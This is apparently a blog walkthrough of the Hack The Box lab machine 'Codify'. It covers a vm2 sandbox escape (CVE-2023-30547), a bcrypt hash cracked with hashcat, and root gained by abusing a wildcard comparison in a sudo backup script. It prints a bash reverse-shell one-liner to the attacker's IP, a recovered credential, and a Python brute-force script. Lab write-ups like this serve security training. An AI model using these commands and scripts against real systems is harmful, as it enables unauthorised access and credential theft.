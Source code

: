 ```yaml
---
layout: post
title:  "Codify"
date:   2024-04-05 17:04:54 +0100
tags: ["OS Command Injection", "Brute Force"]
categories: ["Linux", Medium]
image: "https://htb-mp-prod-public-storage.s3.eu-central-1.amazonaws.com/avatars/57b977ea744af01a5454c8643a850e59.png"
---
```


## Information Gathering

First run a nmap scan to show the services available on the target.

![Nmap scan](/assets/machines/codify.htb/images/1_nmap_scan.webp)

*Note:  The output shows port 3000 open, it was someone else who had access to the machine and opened that port.*

The web application use the vm2 software to allow users to execute Nodejs code in the server.

![HTTP Web service](/assets/machines/codify.htb/images/2_http_web_service.webp)

The version of vm2 can be found at link of the About us page.

![HTTP Web service](/assets/machines/codify.htb/images/3_http_vm2_version.webp)

## Vulnerability Assesment

A quick search on Google reveals that there is a vulnerability for version vm2 3.9.16: [CVE-2023-30547](https://nvd.nist.gov/vuln/detail/CVE-2023-30547)

In the following link, we have a [Proof of Concept (PoC)](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244).

## Execute reverse shell

We will exploit the vulnerability by injecting a command that will execute a reverse shell. The command to inject is as follows:

```bash
/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.35/9000 0>&1"
```

![HTTP Web service](/assets/machines/codify.htb/images/4_os_command_injection.webp)

Before clicking on `Run`, make sure you have netcat listening.

![HTTP Web service](/assets/machines/codify.htb/images/5_nc_revshell.webp)

¡We are in! The next step is to gather information again.

## Brute Forcing Password

We find two users, `svc` and `joshua`. Since we are inside a CTF, it looks like we first need to compromise the `joshua` user by performing privilege escalation, and then go for the root user.

![HTTP Web service](/assets/machines/codify.htb/images/7_users.webp)

Searching through the files on the website, we came across the file `tickets.db`, which contains the hashed password of the user joshua.

![HTTP Web service](/assets/machines/codify.htb/images/6_tickets_db.webp)

If we look at the hash, it is Bcrypt. Fortunately, we have our trusted tool Hashcat.

```bash
hashcat -m 3200 hash.txt /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
```

The argument `-m 3200` indicates that we will use the Bcrypt hash.

![HTTP Web service](/assets/machines/codify.htb/images/8_hashcat.webp)

The brute force attack was successful, and we obtained the credentials `joshua:spongebob1`. Now, let's cross our fingers that he has reused the password for his account on the server.

![HTTP Web service](/assets/machines/codify.htb/images/9_su_joshua.webp)

Thanks God! We got Joshua's flag, and now let's go for root.

## Privilege Escalation

The command `sudo -l` shows us the commands/scripts that we can execute as root.

![HTTP Web service](/assets/machines/codify.htb/images/10_sudo_l.webp)

We come across the script `/opt/scripts/mysql-backup.sh`, its contents are as follows:

```bash
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

This script basically performs a backup and stores it in `/var/backups/mysql`. However, to execute the script, we are asked for the root password in the MySQL database. If we enter the wrong password, the rest of the script will not execute.

Fortunately, the following conditional has a vulnerability that we can exploit:

```bash
if [[ $DB_PASS == $USER_PASS ]]
```

Our input has not been sanitized, so we can use the wildcard `*` to brute force the root password. By introducing the next inputs `a*`, `b*`, `c*`, `d*`, `e*`, `f*`, ..., `kl*`.

After a few minutes, I created this Python script to brute force the root password using the previous methodology. Please note that this script does not use symbols like `$,.`, as they could provoke script errors.

```python
import os
import time


# This python script brute force the password by using wildcard * in the password
chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
pass_arr = 'kljh12k3jhaskjh12kjh'.split()
i = 0
while True:
    pass_str = ''.join(pass_arr)
    result = os.system(f"echo {pass_str}* | sudo /opt/scripts/mysql-backup.sh 1>/dev/null 2>/dev/null")
    time.sleep(0.5)

    # If the appended character was not found, replace it with the next character
    if result != 0:
        print(f"Character not found: {pass_str}*")
        i += 1
        # If we have tried all characters, password was found
        if i >= len(chars):
            pass_arr.pop()
            print(f"Password found: {''.join(pass_arr)}")
            break
        # Otherwise, replace the last character with the next one
        pass_arr[len(pass_arr) - 1] = chars[i]
        continue

    # If a new character was found, add it to the password
    print(f"Found character: {pass_str}*")
    i = 0
    pass_arr.append(chars[i])
    continue
```

The above script will perform a brute force attack to obtain the root password.

![HTTP Web service](/assets/machines/codify.htb/images/11_py_bruteforce_start.webp)

Finally, after a few minutes, we have obtained the root password.

![HTTP Web service](/assets/machines/codify.htb/images/12_py_bruteforce_end.webp)

Use it wisely to obtain the root flag.

¡Happy Hacking!
